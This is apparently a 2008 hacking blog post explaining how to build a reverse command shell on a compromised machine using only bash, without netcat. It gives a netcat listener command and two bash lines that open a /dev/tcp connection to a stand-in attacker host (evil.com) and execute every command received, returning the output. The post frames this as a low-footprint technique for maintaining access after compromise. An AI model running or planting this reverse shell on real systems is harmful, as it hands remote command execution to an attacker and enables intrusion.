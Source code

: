```yaml
---
title: Reverse Shell with Bash
author: pdp
date: Sat, 19 Apr 2008 11:03:39 GMT
template: post.pug
---
```


I am stuck at the Dubai International Airport and I have nothing else interesting to do. So, I though I might share a simple technique which will go into the [Agile Hacking](/blog/agile-hacking/) project. Here I will show you how to create a reverse command shell without using any 3rd-party tools such as the all mighty netcat.

When we compromise a machine we often need to provide ourselves with a user friendly access to the system. This is where command shells come into place. The typical shell consists of a generic network client, typically netcat, listening on a remote port which pipes output into something like bash or any other command shell. Another type of shell is the reverse shell which consists of a generic network client, again something like netcat, connecting to the attacker's machine and piping input to bash. Most of the time, the attacker will use netcat, because this tool can be easily found on most system or easily compiled from source if required.

Although netcat is very useful, and you may have to use it in most cases, here is a simple technique which emulates what netcat does but it relies on bash only. Let's see how.

In step one we start a listening service on our box. We can use netcat, or whatever you might have at hand.

	$ nc -l -p 8080 -vvv

On the target we have to perform some bash-fu. We will create a new descriptor which is assigned to a network node. Then we will read and write to that descriptor.

	$ exec 5<>/dev/tcp/evil.com/8080
	$ cat <&5 | while read line; do $line 2>&5 >&5; done

There you go. Now everything we type in our local listening server will get executed on the target and the output of the commands will be piped back. Keep in mind that we don't use any 3rd-party tools on the target but its default shell. This technique comes handy in many situations and it leaves very small footprint on the targeted system.
